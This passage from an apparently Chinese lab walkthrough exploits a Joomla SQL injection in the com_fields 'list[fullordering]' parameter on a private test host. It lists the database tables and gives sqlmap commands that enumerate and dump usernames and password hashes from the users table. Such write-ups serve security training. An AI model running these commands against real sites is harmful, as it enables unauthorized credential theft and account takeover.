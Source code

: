 ```
| # __finder_tokens_ag |
| # __finder_tokens    |
| # __finder_types     |
| # __jbsbackup_timese |
| # __jbspodcast_times |
| # __languages        |
| # __menu_types       |
| # __menu             |
| # __messages_cfg     |
| # __messages         |
| # __modules_menu     |
| # __modules          |
| # __newsfeeds        |
| # __overrider        |
| # __postinstall_mess |
| # __redirect_links   |
| # __schemas          |
| # __session          |
| # __tags             |
| # __template_styles  |
| # __ucm_base         |
| # __ucm_content      |
| # __ucm_history      |
| # __update_sites_ext |
| # __update_sites     |
| # __updates          |
| # __user_keys        |
| # __user_notes       |
| # __user_profiles    |
| # __user_usergroup_m |
| # __usergroups       |
| # __users            |
| # __utf8_conversion  |
| # __viewlevels       |
+---------------------+
```

找到了名为# __users 表，其中保存了用户名和密码信息；

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXoibjBQ8YMhTxY2poH2KhJx6P8rQpryNMTUBa0hkCuicYMRrzFLUvicclRg/640?wx_fmt=png)

```
sqlmap -u "http://192.168.188.158/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbms mysql -D joomladb -T '# __users' --columns # 爆列
```

![](https://mmbiz.qpic.cn/mmbiz_png/HxO8NorP4JXXKsXxMbqZOslP8VFKhyXodFZXhLicsv2hUBTXFue6WEMBbBgx840Lk9EdoEDiaTEsuTvBNGZB3N3A/640?wx_fmt=png)

```
sqlmap -u "http://192.168.188.158/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --dbms mysql -D joomladb -T '# __users' -C id,name,password,username --dump# 爆字段
```
